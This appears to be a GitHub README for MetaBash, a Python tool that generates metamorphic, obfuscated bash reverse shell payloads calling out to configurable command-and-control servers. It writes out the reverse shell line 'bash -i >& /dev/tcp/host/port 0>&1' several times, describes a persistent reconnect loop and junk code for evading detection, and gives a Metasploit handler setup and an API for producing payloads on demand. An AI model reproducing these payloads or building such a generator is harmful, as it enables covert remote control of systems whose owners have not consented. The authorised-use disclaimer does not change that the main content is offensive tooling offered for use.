


# MetaBash - Metamorphic Bash Reverse Shell Generator

## Overview
MetaBash is a Python tool for generating highly variable, metamorphic bash reverse shell payloads. It is designed for red team, research, and educational use, and can be used both as a command-line tool and via a REST API.

## Features
- **Metamorphic Bash Payloads:** Each payload is unique, with randomized logic and structure.
- **Direct Bash Reverse Shell:** Payloads use a reliable bash reverse shell for maximum compatibility with Metasploit and netcat handlers.
- **API Wrapper:** Generate payloads programmatically via a REST API with API key authentication.
- **Configurable C2 Endpoints:** Easily set your callback IPs/ports in `config.py`.
- **Junk/Evasion Code:** Optionally includes junk and evasion code for obfuscation.

## Quick Start

### 1. Clone and Install
```bash
git clone https://github.com/yourusername/metabash.git
cd metabash
pip install -r requirements.txt
```

### 2. Configure
Edit `config.py` to set your API key and C2 endpoints:
```python
API_KEY = "your_api_key_here"
C2_ENDPOINTS = [
    ("your.c2.server", 9000),
    ("another.c2.server", 4444)
]
```

### 3. Generate a Payload (CLI)
```bash
python3 payload_generator.py
# Output: Metamorphic payload written to payload_YYYYMMDD_HHMMSS_xxxxxxxx.sh
```

### 4. Use the API
Start the API server:
```bash
python3 api_wrapper.py
```
Generate a payload via API:
```bash
curl -X POST http://localhost:8080/x7y9z2 -H "x-api-key: your_api_key_here"
```

### 5. Handler Example (Metasploit)
```
use exploit/multi/handler
set PAYLOAD cmd/unix/reverse_bash
set LHOST <your_ip>
set LPORT <your_port>
run
```

## How It Works
- The payload connects to a random C2 endpoint from your list.
- If the port is open, it spawns a direct interactive bash reverse shell:
  ```bash
  bash -i >& /dev/tcp/$host/$port 0>&1
  ```
- The loop persists, so if the connection drops, it will try again.

## File Structure
- `payload_generator.py` — Main payload generator
- `api_wrapper.py` — REST API server
- `config.py` — Configuration (API key, C2 endpoints, etc.)
- `requirements.txt` — Python dependencies
- `README.md` — This file

## Security & Legal
- **For authorized use only.** Do not use on systems you do not own or have explicit permission to test.
- The authors are not responsible for misuse or damage.
- Always follow your local laws and organizational policies.

## License
MIT

## Diagrams

### Workflow Diagram


### API Flow Diagram


## Examples

### Example Payload
```bash
#!/bin/bash
# This is a sample payload generated by MetaBash
bash -i >& /dev/tcp/your.c2.server/9000 0>&1
```

### Example API Response
```json
{
  "payload": "#!/bin/bash\nbash -i >& /dev/tcp/your.c2.server/9000 0>&1",
  "status": "success"
}
```

## Contributing
Contributions are welcome! Please feel free to submit a Pull Request.

## Contact
For any questions or concerns, please open an issue on GitHub. 
